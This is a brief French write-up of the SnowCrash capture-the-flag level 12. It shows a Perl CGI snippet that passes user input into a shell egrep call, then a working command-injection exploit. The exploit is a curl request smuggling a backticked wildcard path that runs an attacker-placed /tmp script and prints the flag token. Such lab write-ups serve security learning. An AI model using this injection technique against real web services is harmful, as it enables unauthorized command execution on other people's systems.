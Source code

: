 
## Level12:

``` perl
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
```   
Ici le programme va supp les espaces et mettre les caracteres en majuscule avant d'ouvrir avec egrep.   
Il faut donc executer un programme dans notre fichier qui doit avoir un nom en maj :   

```bash
level12@SnowCrash:~$ echo "getflag > /tmp/key" > /tmp/TEST && chmod +x /tmp/TEST
level12@SnowCrash:~$ curl 'http://127.0.0.1:4646/?x=`/*/test`'
level12@SnowCrash:~$ cat /tmp/key
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```